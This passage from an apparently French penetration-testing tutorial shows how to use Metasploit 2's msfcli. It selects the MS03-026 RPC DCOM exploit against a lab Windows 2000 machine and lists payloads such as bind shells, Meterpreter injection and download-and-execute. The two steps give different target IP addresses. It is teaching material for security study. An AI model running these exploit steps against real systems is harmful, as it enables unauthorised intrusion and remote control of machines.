 Nous pourrons faire une recherche sur Google afin de trouver le paquet nécessaire sous Linux ou l’exécutable sous Windows.

#### a. Metasploit Command Line Interface \(MSFCLI\)

![images/04EP07.png](https://www.eni-training.com/download/e6942060-4181-4dd7-bce3-601625551eb9/images/04EP07.png?id=AAEAAAD%2f%2f%2f%2f%2fAQAAAAAAAAAMAgAAAE1FbmkuRWRpdGlvbnMuTWVkaWFwbHVzLCBWZXJzaW9uPTEuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49bnVsbAUBAAAAJ0VuaS5FZGl0aW9ucy5NZWRpYXBsdXMuQ29tbW9uLldhdGVybWFyawIAAAAHcGlzVGV4dAlwaWR0ZURhdGUBAA0CAAAABgMAAAA0Um90ZW4gQ8OpZHJpYyAtIGNlNmMyNzBjLWU3NjMtNDYwZC05MzZlLTc3ZmZhMTBmMjAzYUAn10qU0tiICw%3d%3d)

Nous utilisons pour l’instant Metasploit 2. Pour découvrir cette application, nous allons utiliser la faille RCP DCOM exploit \(MS03-026\) contre notre victime, un Windows 2000 \(192.168.29.15\).

```text

framework2 # ./msfcli |grep 026  
msrpc_dcom_ms03_026  
Microsoft RPC DCOM MSO3-026  
framework2 #  
```

Nous pouvons maintenant sélectionner l’exploit.

```text

framework2 # ./msfcli msrpc_dcom_ms03_026 O  
Exploit Options  
===============  
Exploit: Name Default Description  
-------- ------ ------- ------------------  
required RHOST  
The target address  
required RPORT 135  
The target port  
Target: Windows NT SP3-6a/2K/XP/2K3 English ALL  
framework2 #
```

Nous pouvons maintenant choisir un PAYLOAD \(P\).

```text

framework2 # ./msfcli msrpc_dcom_ms03_026 RHOST=192.168.9.14 P  
Metasploit Framework Usable Payloads  
====================================  
win32_adduser  
Windows Execute net user /ADD  
win32_bind  
Windows Bind Shell  
win32_bind_dllinject  
Windows Bind DLL Inject  
win32_bind_meterpreter  
Windows Bind Meterpreter DLL Inject  
win32_bind_stg  
Windows Staged Bind Shell  
win32_bind_stg_upexec  
Windows Staged Bind Upload/Execute  
win32_bind_vncinject  
Windows Bind VNC Server DLL Inject  
win32_downloadexec  
Windows Executable Download and Execute  
win32_exec  
Windows Execute Command  
win32_passivex  
Windows PassiveX ActiveX Injection Payload  
win32_passivex_meterpreter Windows PassiveX ActiveX Inject 
Meterpreter  
win32_passivex_stg  
Windows Staged PassiveX Shell  
win32_passivex_vncinject Windows PassiveX ActiveX VNC Server 
```